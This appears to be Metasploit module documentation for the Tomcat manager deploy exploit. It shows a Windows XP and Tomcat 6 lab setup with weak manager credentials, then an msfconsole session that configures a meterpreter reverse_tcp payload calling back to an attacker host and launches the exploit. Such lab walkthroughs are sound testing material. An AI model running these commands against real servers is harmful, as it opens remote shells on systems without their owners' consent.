 # Documentation Format
This documentation is slightly different from the standard module documentation due to the variation in variables/privileges/versions that can affect how exploitation happens.
This documentation is broken down by OS, Tomcat version, then privilege to show exploitation in each variation.

# Cleanup
It should be stated outright that the exploit does NOT undeploy the shellcode from Tomcat.  This must be done [manually](#manual-cleanup).

## Windows (xp sp2)
### Tomcat 6 (6.0.48)
#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat6](http://apache.osuosl.org/tomcat/tomcat-6/v6.0.48/bin/apache-tomcat-6.0.48.exe)

The install was default, other than adding a user during install.  No other options were changed.  The install assgined the new user the role `manager-gui`, which is Tomcat 7+ syntax.
For this exploitation, it was changed to simply `manager`.

#### Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 6.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

    ```
    <role rolename="manager"/>
    <user username="tomcat" password="tomcat" roles="manager"/>
    ```

2. Restart Tomcat service

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy 
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set target 1
    target => 1
    msf exploit(tomcat_mgr_deploy) > set rport 8086
    rport => 8086
    msf exploit(tomcat_mgr_deploy) > set path /manager
    path => /manager
    msf exploit(tomcat_mgr_deploy) > check
    [*] 192.168.2.108:8086 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_deploy) > exploit
    